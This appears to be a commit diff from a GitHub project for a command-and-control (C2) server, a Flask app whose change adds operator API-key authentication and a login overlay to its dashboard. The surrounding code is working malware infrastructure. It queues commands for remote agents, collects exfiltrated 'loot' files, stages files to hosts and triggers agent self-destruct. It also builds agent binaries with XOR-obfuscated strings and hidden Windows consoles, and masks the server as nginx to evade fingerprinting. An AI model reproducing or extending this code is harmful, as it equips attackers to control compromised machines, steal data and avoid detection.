

Before and after one commit to hassan-hamadi/C2-Project, a Flask app: page / in a window 1280 px wide. Run offline with Flask 3, Linux system fonts and the light colour scheme; data that the repository does not hold is empty.

Commit message:
Added per-instance randomised agent-facing URL slugs stored in SQLite and enforced API key authentication on all operator endpoints via a Flask before_request hook, with the dashboard managing the key through a sessionStorage auth overlay and a centralised apiFetch() wrapper.

```diff
--- a/server/app.py
+++ b/server/app.py
@@ -13,9 +13,7 @@ import zipfile
 
 app = Flask(__name__)
 
-# Replace the default Werkzeug/Python Server header on every response.
-# Without this, the header would immediately fingerprint the C2 server
-# as a Flask application to anyone inspecting the traffic.
+# Swap out the default Werkzeug Server header so the stack isn't fingerprinted from traffic.
 @app.after_request
 def mask_server_header(response):
     response.headers["Server"] = "nginx/1.24.0"
@@ -37,16 +35,10 @@ os.makedirs(STAGED_DIR, exist_ok=True)
 AGENT_SRC_DIR = os.path.join(os.path.dirname(os.path.abspath(__file__)), "..", "agent")
 
 
-# ─────────────────────────────────────────────
-#  Agent Path Initialisation
-# ─────────────────────────────────────────────
+# -- agent path init --
 
 def _init_agent_paths():
-    """
-    Load per-server random agent-facing URL paths from the database.
-    If they don't exist yet (first startup), generate them and persist them.
-    Returns a dict with keys: checkin, result, upload, files.
-    """
+    """Pull path slugs from the DB, generate them on first run."""
     import secrets
 
     keys = ["path_checkin", "path_result", "path_upload", "path_files"]
@@ -73,16 +65,50 @@ def _init_agent_paths():
 
 _agent_paths = _init_agent_paths()
 
-# Module-level path variables used by route registration and the build pipeline
+# used by route registration and the build pipeline
 AGENT_PATH_CHECKIN = _agent_paths["path_checkin"]
 AGENT_PATH_RESULT  = _agent_paths["path_result"]
 AGENT_PATH_UPLOAD  = _agent_paths["path_upload"]
 AGENT_PATH_FILES   = _agent_paths["path_files"]
 
 
-# ─────────────────────────────────────────────
-#  Dashboard Route
-# ─────────────────────────────────────────────
+# -- operator API key --
+
+def _init_api_key():
+    """Pull the operator API key from the DB, generate it if this is the first run."""
+    import secrets
+
+    conn = get_db_connection()
+    row = conn.execute(
+        "SELECT value FROM server_config WHERE key = 'api_key'"
+    ).fetchone()
+
+    if row:
+        key = row["value"]
+    else:
+        key = secrets.token_hex(16)
+        conn.execute(
+            "INSERT INTO server_config (key, value) VALUES (?, ?)",
+            ("api_key", key),
+        )
+        conn.commit()
+
+    conn.close()
+    return key
+
+
+API_KEY = _init_api_key()
+
+
+@app.before_request
+def _require_api_key():
+    """Gate every operator endpoint behind the API key."""
+    if request.path.startswith("/api/"):
+        if request.headers.get("X-API-Key") != API_KEY:
+            return jsonify({"error": "Unauthorized"}), 401
+
+
+# -- dashboard --
 
 @app.route("/")
 def dashboard():
@@ -90,18 +116,10 @@ def dashboard():
     return render_template("index.html")
 
 
-# ─────────────────────────────────────────────
-#  Agent Check-In API
-# ─────────────────────────────────────────────
+# -- agent checkin --
 
 def SyncDeviceState():
-    """
-    Agent check-in endpoint.
-    Expects: { "kid": "<8-char key fingerprint>", "data": "<base64 AES-256-GCM encrypted JSON>" }
-    Inner plaintext:  { "agent_id": "...", "hostname": "...", "os": "..." }
-    Returns encrypted: { "kid": "...", "data": "<encrypted JSON>" }
-    Inner response:   { "status": "ok", "tasks": [ { "id": ..., "command": "..." }, ... ] }
-    """
+    """Decrypt the checkin envelope, register/update the agent, return pending tasks encrypted."""
     envelope = request.get_json()
 
     # Validate envelope
@@ -165,15 +183,10 @@ def SyncDeviceState():
     return jsonify({"kid": kid, "data": enc})
 
 
-# ─────────────────────────────────────────────
-#  Crypto Helpers
-# ─────────────────────────────────────────────
+# -- crypto helpers --
 
 def _get_key_for_kid(kid: str) -> str | None:
-    """
-    Look up the AES-256 encryption key for a given key_id fingerprint.
-    Returns the 64-char hex key string, or None if the kid is not found.
-    """
+    """Look up the AES key for a given kid. Returns hex string or None."""
     conn = get_db_connection()
     row = conn.execute(
         "SELECT encryption_key FROM builds WHERE key_id = ?", (kid,)
@@ -182,17 +195,11 @@ def _get_key_for_kid(kid: str) -> str | None:
     return row["encryption_key"] if row else None
 
 
-# ─────────────────────────────────────────────
-#  DiagnosticTask Management API
-# ─────────────────────────────────────────────
+# -- task management --
 
 @app.route("/api/task", methods=["POST"])
 def submit_task():
-    """
-    Submit a new task for an agent.
-    Receives: { "agent_id": "...", "command": "..." }
-    Returns:  { "task_id": ... }
-    """
+    """Queue a command for an agent."""
     data = request.get_json()
 
     if not data or "agent_id" not in data or "command" not in data:
@@ -233,16 +240,10 @@ def get_tasks(agent_id):
     })
 
 
-# ─────────────────────────────────────────────
-#  Result API
-# ─────────────────────────────────────────────
+# -- results --
 
 def submit_result():
-    """
-    Agent submits task result.
-    Expects: { "kid": "<key fingerprint>", "data": "<encrypted JSON>" }
-    Inner plaintext: { "task_id": ..., "output": "..." }
-    """
+    """Decrypt the result envelope from the agent and store the output."""
     envelope = request.get_json()
 
     # Validate and decrypt
@@ -316,9 +317,7 @@ def get_results(task_id):
     })
 
 
-# ─────────────────────────────────────────────
-#  Agents API (for AJAX dashboard refresh)
-# ─────────────────────────────────────────────
+# -- agents --
 
 @app.route("/api/agents", methods=["GET"])
 def get_agents():
@@ -343,11 +342,7 @@ def get_agents():
 
 @app.route("/api/agents/<agent_id>", methods=["DELETE"])
 def delete_agent(agent_id):
-    """
-    Queue a self-destruct task for the agent.
-    The agent will wipe itself from the host on its next check-in.
-    The agent record is kept in the DB so it can still pick up the task.
-    """
+    """Queue a self-destruct for the agent. Record stays in the DB until the agent checks in and wipes itself."""
     conn = get_db_connection()
 
     # Check if agent exists
@@ -394,9 +389,7 @@ def force_delete_agent(agent_id):
     return jsonify({"status": "ok"})
 
 
-# ─────────────────────────────────────────────
-#  Stats API
-# ─────────────────────────────────────────────
+# -- stats --
 
 @app.route("/api/stats", methods=["GET"])
 def get_stats():
@@ -420,9 +413,7 @@ def get_stats():
     })
 
 
-# ─────────────────────────────────────────────
-#  Build / Deploy API
-# ─────────────────────────────────────────────
+# -- build --
 
 def _sanitize_interval(interval_str):
     """Validate and sanitize a Go time.Duration string like '10s', '1m', '30s'."""
@@ -447,11 +438,11 @@ def _generate_config_go(server_url, jitter_min, jitter_max, persistence,
                         path_upload="/api/upload", path_files="/api/files/"):
     """Generate a config.go file with the given settings."""
 
-    # Generate a random 16-byte XOR key for string obfuscation
+    # fresh XOR key for this build
     xor_key = os.urandom(16)
     xor_key_hex = xor_key.hex()
 
-    # XOR-encrypt sensitive strings at build time
+    # encrypt sensitive strings so they don't show up as plaintext in the binary
     enc_server_url   = _xor_encrypt(xor_key, server_url)
     enc_checkin_path = _xor_encrypt(xor_key, path_checkin)
     enc_result_path  = _xor_encrypt(xor_key, path_result)
@@ -779,12 +770,7 @@ func transmitSecureTelemetry(url string, payload any) ([]byte, error) {{
 
 @app.route("/api/build", methods=["POST"])
 def build_agent():
-    """
-    Build an agent binary with custom configuration.
-    Receives: { "target_os": "windows", "arch": "amd64", "server_url": "...",
-                "interval": "10", "persistence": true }
-    Returns:  { "status": "ok", "filename": "...", "build_id": ... }
-    """
+    """Compile an agent binary with the given config and return the build ID."""
     data = request.get_json()
 
     if not data:
@@ -840,7 +826,7 @@ def build_agent():
     except (ValueError, TypeError):
         return jsonify({"error": "profile_id must be a number (1-5)"}), 400
 
-    # Sanitize locale (basic validation: allow alphanumerics, dashes, commas, semicolons, equals, periods)
+    # basic locale format check
     import re as _re
     if not _re.match(r'^[a-zA-Z0-9\-,;=. ]+$', locale):
         return jsonify({"error": "Invalid locale format"}), 400
@@ -885,10 +871,10 @@ def build_agent():
         env["GOARCH"] = arch
         env["CGO_ENABLED"] = "0"
 
-        # Base ldflags (strip debug symbols and DWARF info)
+        # strip debug symbols and DWARF
         ldflags = "-s -w"
 
-        # If building for Windows, hide the console window entirely
+        # no console window on Windows
         if target_os == "windows":
             ldflags += " -H=windowsgui"
 
@@ -920,7 +906,7 @@ def build_agent():
         shutil.move(output_path, final_path)
         file_size = os.path.getsize(final_path)
 
-        # Record in database
+        # save build record
         conn = get_db_connection()
         cursor = conn.execute(
             "INSERT INTO builds (filename, target_os, arch, server_url, callback_interval, persistence, file_path, file_size, key_id, encryption_key) VALUES (?, ?, ?, ?, ?, ?, ?, ?, ?, ?)",
@@ -1018,9 +1004,7 @@ def delete_build(build_id):
     return jsonify({"status": "ok"})
 
 
-# ─────────────────────────────────────────────
-#  Upload / Exfiltration API (Agent → Server)
-# ─────────────────────────────────────────────
+# -- upload / exfil (agent -> server) --
 
 def receive_upload():
     """Receive an exfiltrated file from an agent."""
@@ -1109,9 +1093,7 @@ def delete_loot(loot_id):
     return jsonify({"status": "ok"})
 
 
-# ─────────────────────────────────────────────
-#  File Staging API (Server → Agent)
-# ─────────────────────────────────────────────
+# -- file staging (server -> agent) --
 
 @app.route("/api/files/stage", methods=["POST"])
 def stage_file():
@@ -1201,16 +1183,13 @@ def delete_staged_file(file_id):
     return jsonify({"status": "ok"})
 
 
-# ─────────────────────────────────────────────
-#  Agent Route Registration
-# ─────────────────────────────────────────────
+# -- agent route registration --
 
 def _register_agent_routes():
     """
-    Register the four agent-facing endpoints on their randomised paths.
-    Called once at module load after AGENT_PATH_* variables are set.
-    Using add_url_rule() instead of decorators because the paths are
-    only known after the DB is read, not at import time.
+    Wire up the four agent endpoints to their randomised paths.
+    Uses add_url_rule() instead of decorators because the paths come
+    from the DB and aren't known until after init.
     """
     app.add_url_rule(AGENT_PATH_CHECKIN, "agent_checkin", SyncDeviceState, methods=["POST"])
     app.add_url_rule(AGENT_PATH_RESULT,  "agent_result",  submit_result,   methods=["POST"])
@@ -1226,18 +1205,18 @@ def _register_agent_routes():
 _register_agent_routes()
 
 
-# ─────────────────────────────────────────────
-#  Entry Point
-# ─────────────────────────────────────────────
+# -- entry point --
 
 if __name__ == "__main__":
-    # Patch Werkzeug's transport-level Server header before starting.
-    # Flask's @after_request hook only controls the response object, but
-    # Werkzeug's dev server writes its own Server line directly to the socket
-    # before that hook runs. Without this patch both headers appear in the
-    # response, which is worse than one because it reveals the masking attempt.
+    # Werkzeug writes its own Server header at the socket level before our
+    # @after_request hook fires. Patch it here or both headers show up in the response.
     from werkzeug.serving import WSGIRequestHandler
     setattr(WSGIRequestHandler, "server_version", "nginx/1.24.0")
     setattr(WSGIRequestHandler, "sys_version", "")
 
+    print("\n=======================================")
+    print("  Operator API Key (paste into dashboard):")
+    print(f"  {API_KEY}")
+    print("=======================================\n")
+
     app.run(host="0.0.0.0", port=5000, debug=False)
--- a/server/static/dashboard.js
+++ b/server/static/dashboard.js
@@ -7,6 +7,66 @@
 let selectedAgentId = null;
 let taskHistoryOpen = false;
 const REFRESH_INTERVAL = 5000;
+
+// ═══════════════════════════════════════════
+//  API KEY AUTH
+// ═══════════════════════════════════════════
+
+function apiFetch(url, options = {}) {
+    const key = sessionStorage.getItem("api_key");
+    if (!key) {
+        showAuthOverlay();
+        return Promise.reject(new Error("Not authenticated"));
+    }
+    if (!options.headers) options.headers = {};
+    if (options.headers instanceof Headers) {
+        options.headers.set("X-API-Key", key);
+    } else {
+        options.headers["X-API-Key"] = key;
+    }
+    return fetch(url, options).then(res => {
+        if (res.status === 401) {
+            sessionStorage.removeItem("api_key");
+            showAuthOverlay();
+            return Promise.reject(new Error("Invalid API key"));
+        }
+        return res;
+    });
+}
+
+function showAuthOverlay() {
+    document.getElementById("auth-overlay").classList.add("visible");
+}
+
+function hideAuthOverlay() {
+    document.getElementById("auth-overlay").classList.remove("visible");
+}
+
+function submitApiKey() {
+    const input = document.getElementById("auth-key-input");
+    const error = document.getElementById("auth-error");
+    const key = input.value.trim();
+
+    if (!key) return;
+
+    error.textContent = "";
+
+    // Test the key with a lightweight endpoint
+    fetch("/api/stats", { headers: { "X-API-Key": key } })
+        .then(res => {
+            if (res.status === 401) {
+                error.textContent = "Invalid API key";
+                return;
+            }
+            sessionStorage.setItem("api_key", key);
+            hideAuthOverlay();
+            refreshAgents();
+            loadStats();
+        })
+        .catch(() => {
+            error.textContent = "Connection failed";
+        });
+}
 
 // ─── DOM References ───
 const agentListEl = document.getElementById("agent-list");
@@ -50,7 +110,7 @@ function switchSection(sectionName) {
 // ═══════════════════════════════════════════
 
 function loadStats() {
-    fetch("/api/stats")
+    apiFetch("/api/stats")
         .then((res) => res.json())
         .then((data) => {
             document.getElementById("stat-agents").textContent = data.agents || 0;
@@ -120,7 +180,7 @@ function sendCommand() {
     commandInput.value = "";
 
     // Submit task
-    fetch("/api/task", {
+    apiFetch("/api/task", {
         method: "POST",
         headers: { "Content-Type": "application/json" },
         body: JSON.stringify({
@@ -148,7 +208,7 @@ function sendCommand() {
 
 function pollForResult(taskId) {
     const poll = setInterval(() => {
-        fetch(`/api/results/${taskId}`)
+        apiFetch(`/api/results/${taskId}`)
             .then((res) => res.json())
             .then((data) => {
                 if (data.results && data.results.length > 0) {
@@ -180,7 +240,7 @@ function toggleTaskHistory() {
 }
 
 function loadTasks(agentId) {
-    fetch(`/api/tasks/${agentId}`)
+    apiFetch(`/api/tasks/${agentId}`)
         .then((res) => res.json())
         .then((data) => {
             if (!data.tasks || data.tasks.length === 0) {
@@ -204,7 +264,7 @@ function loadTasks(agentId) {
 }
 
 function viewTaskResult(taskId) {
-    fetch(`/api/results/${taskId}`)
+    apiFetch(`/api/results/${taskId}`)
         .then((res) => res.json())
         .then((data) => {
             if (data.results && data.results.length > 0) {
@@ -224,7 +284,7 @@ function viewTaskResult(taskId) {
 // ═══════════════════════════════════════════
 
 function refreshAgents() {
-    fetch("/api/agents")
+    apiFetch("/api/agents")
         .then((res) => res.json())
         .then((data) => {
             if (data.agents.length === 0) {
@@ -317,7 +377,7 @@ function buildAgent(event) {
     progressEl.classList.remove("hidden");
     progressText.textContent = `Compiling ${config.target_os}/${config.arch} agent…`;
 
-    fetch("/api/build", {
+    apiFetch("/api/build", {
         method: "POST",
         headers: { "Content-Type": "application/json" },
         body: JSON.stringify(config),
@@ -366,7 +426,7 @@ function buildAgent(event) {
 function loadBuilds() {
     const payloadList = document.getElementById("payload-list");
 
-    fetch("/api/builds")
+    apiFetch("/api/builds")
         .then((res) => res.json())
         .then((data) => {
             if (!data.builds || data.builds.length === 0) {
@@ -405,7 +465,7 @@ function downloadBuild(buildId, filename) {
 }
 
 function triggerDownload(buildId, filename) {
-    fetch(`/api/builds/download/${buildId}`)
+    apiFetch(`/api/builds/download/${buildId}`)
         .then((res) => res.blob())
         .then((blob) => {
             const url = window.URL.createObjectURL(blob);
@@ -423,7 +483,7 @@ function triggerDownload(buildId, filename) {
 function deleteBuild(buildId) {
     if (!confirm("Delete this payload?")) return;
 
-    fetch(`/api/builds/${buildId}`, { method: "DELETE" })
+    apiFetch(`/api/builds/${buildId}`, { method: "DELETE" })
         .then((res) => res.json())
         .then(() => {
             loadBuilds();
@@ -435,7 +495,7 @@ function deleteBuild(buildId) {
 function deleteAgent(agentId) {
     if (!confirm("⚠ DESTROY AGENT?\n\nThis will remotely wipe the agent from the host:\n• Remove persistence (registry/cron)\n• Delete the agent binary\n• Agent will self-destruct on next check-in\n\nContinue?")) return;
 
-    fetch(`/api/agents/${agentId}`, { method: "DELETE" })
+    apiFetch(`/api/agents/${agentId}`, { method: "DELETE" })
         .then((res) => res.json())
         .then((data) => {
             // Visually mark the card as destroying
@@ -463,7 +523,7 @@ function deleteAgent(agentId) {
 }
 
 function forceDeleteAgent(agentId) {
-    fetch(`/api/agents/${agentId}/force`, { method: "DELETE" })
+    apiFetch(`/api/agents/${agentId}/force`, { method: "DELETE" })
         .then((res) => res.json())
         .then(() => {
             if (selectedAgentId === agentId) {
@@ -558,7 +618,7 @@ function toggleLoot() {
 
 function loadLoot() {
     const lootList = document.getElementById("loot-list");
-    fetch("/api/loot")
+    apiFetch("/api/loot")
         .then((res) => res.json())
         .then((data) => {
             if (!data.loot || data.loot.length === 0) {
@@ -587,12 +647,28 @@ function loadLoot() {
 }
 
 function downloadLoot(lootId) {
-    window.open(`/api/loot/download/${lootId}`, "_blank");
+    apiFetch(`/api/loot/download/${lootId}`)
+        .then((res) => {
+            const filename = (res.headers.get("Content-Disposition") || "")
+                .match(/filename="?([^"]+)"?/)?.[1] || "loot";
+            return res.blob().then((blob) => ({ blob, filename }));
+        })
+        .then(({ blob, filename }) => {
+            const url = window.URL.createObjectURL(blob);
+            const a = document.createElement("a");
+            a.href = url;
+            a.download = filename;
+            document.body.appendChild(a);
+            a.click();
+            document.body.removeChild(a);
+            window.URL.revokeObjectURL(url);
+        })
+        .catch((err) => console.error("Loot download failed:", err));
 }
 
 function deleteLoot(lootId) {
     if (!confirm("Delete this exfiltrated file?")) return;
-    fetch(`/api/loot/${lootId}`, { method: "DELETE" })
+    apiFetch(`/api/loot/${lootId}`, { method: "DELETE" })
         .then(() => loadLoot())
         .catch(() => { });
 }
@@ -616,7 +692,7 @@ function stageFile() {
     btn.disabled = true;
     btn.textContent = "Uploading…";
 
-    fetch("/api/files/stage", {
+    apiFetch("/api/files/stage", {
         method: "POST",
         body: formData,
     })
@@ -658,7 +734,7 @@ function sendFileToAgent(input) {
         </div>
     `);
 
-    fetch("/api/files/stage", {
+    apiFetch("/api/files/stage", {
         method: "POST",
         body: formData,
     })
@@ -694,7 +770,7 @@ function sendFileToAgent(input) {
 
 function loadStagedFiles() {
     const list = document.getElementById("staged-file-list");
-    fetch("/api/files")
+    apiFetch("/api/files")
         .then((res) => res.json())
         .then((data) => {
             if (!data.files || data.files.length === 0) {
@@ -722,7 +798,7 @@ function loadStagedFiles() {
 
 function deleteStagedFile(fileId) {
     if (!confirm("Delete this staged file?")) return;
-    fetch(`/api/files/${fileId}`, { method: "DELETE" })
+    apiFetch(`/api/files/${fileId}`, { method: "DELETE" })
         .then(() => loadStagedFiles())
         .catch(() => { });
 }
@@ -769,5 +845,9 @@ setInterval(() => {
 }, REFRESH_INTERVAL);
 
 // ─── Initial Load ───
-refreshAgents();
-loadStats();
+if (!sessionStorage.getItem("api_key")) {
+    showAuthOverlay();
+} else {
+    refreshAgents();
+    loadStats();
+}
--- a/server/static/style.css
+++ b/server/static/style.css
@@ -1553,3 +1553,97 @@ body {
     display: flex;
     gap: 4px;
 }
+
+
+/* ═══════════════════════════════════════════════════
+   Auth Overlay
+   ═══════════════════════════════════════════════════ */
+
+.auth-overlay {
+    display: none;
+    position: fixed;
+    inset: 0;
+    z-index: 9999;
+    background: var(--bg-base);
+    justify-content: center;
+    align-items: center;
+}
+
+.auth-overlay.visible {
+    display: flex;
+}
+
+.auth-box {
+    display: flex;
+    flex-direction: column;
+    align-items: center;
+    gap: 16px;
+    padding: 48px 40px;
+    background: var(--bg-surface);
+    border: 1px solid var(--border);
+    border-radius: 12px;
+    width: 360px;
+}
+
+.auth-icon {
+    font-size: 36px;
+    color: var(--accent);
+}
+
+.auth-title {
+    font-family: var(--font-mono);
+    font-size: 20px;
+    font-weight: 600;
+    color: var(--text-primary);
+    margin: 0;
+}
+
+.auth-sub {
+    font-size: 13px;
+    color: var(--text-dim);
+    margin: 0;
+}
+
+.auth-input {
+    width: 100%;
+    padding: 10px 14px;
+    background: var(--bg-input);
+    border: 1px solid var(--border);
+    border-radius: 6px;
+    color: var(--text-primary);
+    font-family: var(--font-mono);
+    font-size: 14px;
+    outline: none;
+    transition: border-color 0.2s;
+    box-sizing: border-box;
+}
+
+.auth-input:focus {
+    border-color: var(--accent);
+}
+
+.auth-btn {
+    width: 100%;
+    padding: 10px;
+    background: var(--accent);
+    color: var(--bg-base);
+    border: none;
+    border-radius: 6px;
+    font-family: var(--font-mono);
+    font-size: 13px;
+    font-weight: 600;
+    cursor: pointer;
+    letter-spacing: 1px;
+    transition: opacity 0.2s;
+}
+
+.auth-btn:hover {
+    opacity: 0.85;
+}
+
+.auth-error {
+    font-size: 12px;
+    color: var(--red);
+    margin: 0;
+    min-height: 16px;
+}
--- a/server/templates/index.html
+++ b/server/templates/index.html
@@ -15,6 +15,19 @@
 </head>
 
 <body>
+
+    <!-- ══ Auth Overlay ══ -->
+    <div class="auth-overlay" id="auth-overlay">
+        <div class="auth-box">
+            <span class="auth-icon">⬡</span>
+            <h2 class="auth-title">C2 Project</h2>
+            <p class="auth-sub">Enter the operator API key to continue</p>
+            <input type="password" class="auth-input" id="auth-key-input" placeholder="API key" autocomplete="off"
+                onkeydown="if(event.key==='Enter') submitApiKey()">
+            <button class="auth-btn" onclick="submitApiKey()">AUTHENTICATE</button>
+            <p class="auth-error" id="auth-error"></p>
+        </div>
+    </div>
 
     <!-- ══ Sidebar Navigation ══ -->
     <nav class="sidebar" id="sidebar">
```
Also changed, not shown: server/crypto.py (+10 -47 lines), README.md, 1 other file.
